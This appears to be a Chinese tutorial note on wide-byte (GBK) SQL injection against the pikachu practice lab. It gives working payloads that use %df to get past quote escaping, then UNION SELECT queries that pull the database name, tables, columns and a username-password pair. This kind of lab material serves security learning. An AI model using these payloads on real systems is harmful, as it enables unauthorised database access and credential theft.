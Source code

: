 # 宽字节注入

---

（本案例使用pikachu靶场）

## 产生原因

%df’ 被php（GBK）转义%df%5c%27(%df\')，mysql的GBK编码中%df%5c%27是(縗’)  最后结果变成  縗’ or 1=1 #



## 应用场景：

目标网站响应头content-type:charset=gbk才能使用

输入单引号被转义为\' （id='1\'这样不能被sql执行） ，无法构造sql语句时可用宽字节注入



## 判断注入

name=' or 1=1#

在后台使用sql查询时’ 被转义成%df'   所以提前在'前面加%df  ，变成縗’进行绕过反斜杠转义单引号

name=%df' or 1=1#

判断长度：

name=%df' order by 1#从1开始，直到3报错，表示不大于3（bp抓包中响应包的Render中看页面显示）



## 注入查询

1.查询数据库名

name=%df' union select 1,database()#

出现：your email is:pikachu (库名)

2.查询表名

name=%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema = database() #

出现：your email is:httpinfo,member,message,users,xssblind （表名）

3.查询表字段

name=%df' union select 1,group_concat(column_name) from information_schema.columns where table_name = 'users' 

出现：your email is:username,password,email （表字段）

4.查询表数据

name=%df'  union select username,password from users 

出现：your email is:kobe,1qaz2wsx（表数据）